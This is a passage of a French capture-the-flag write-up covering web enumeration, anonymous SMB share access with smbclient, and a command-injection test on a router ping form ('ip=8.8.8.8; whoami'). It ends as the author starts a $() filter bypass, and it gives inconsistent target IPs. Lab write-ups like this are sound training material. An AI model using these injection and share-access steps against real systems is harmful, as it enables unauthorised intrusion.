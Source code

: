 ```
/myrouterpanel (Status: 200)
/index.html (Status: 200)
```

Le répertoire `/myrouterpanel` semble intéressant.

**Résultats** : Solution 2

```bash
smbclient -L //10.12.13.14
```
```bash
smbclient \\\\10.10.6.41\\public
```
On tombera sur un joli fichier Administrateur qui attend d'être téléchargé par nos soins!

---

## 🎯 Exploitation

### 🛠️ Analyse de `/myrouterpanel`

En accédant à `http://10.12.13.14/myrouterpanel`, nous trouvons un formulaire permettant de pinger une adresse IP. Cela suggère une possible vulnérabilité à l'injection de commandes.

### 🚨 Test d'injection de commandes

Nous interceptons la requête avec **Burp Suite** et modifions le paramètre `ip` pour tester une injection de commande.

**Requête originale** :

```
POST /myrouterpanel/ping.php HTTP/1.1
Host: 10.10.10.10
Content-Type: application/x-www-form-urlencoded

ip=8.8.8.8&submit=Ping
```

**Modification pour tester l'injection** :

```
ip=8.8.8.8; whoami
```

**Réponse** :

```
Attempt Hacking!
```

Il semble qu'un filtre soit en place pour détecter les tentatives d'injection.

### 🛡️ Contournement du filtre

Pour contourner le filtre, nous essayons différentes techniques, notamment l'utilisation de la syntaxe `$()` pour l'exécution de commandes.
